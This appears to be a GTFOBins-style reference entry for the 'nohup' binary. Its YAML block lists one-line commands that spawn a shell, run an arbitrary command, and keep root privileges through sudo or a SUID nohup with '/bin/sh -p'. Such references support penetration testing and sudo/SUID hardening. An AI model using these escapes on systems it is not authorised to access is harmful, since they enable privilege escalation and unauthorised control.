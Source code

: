 ```yaml
---
functions:
  shell:
    - code: nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
  command:
    - code: |
        COMMAND='/usr/bin/id'
        nohup "$COMMAND"
        cat nohup.out
  sudo:
    - code: nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
  suid:
    - code: sudo nohup /bin/sh -p -c "sh -p <$(tty) >$(tty) 2>$(tty)"
---
```

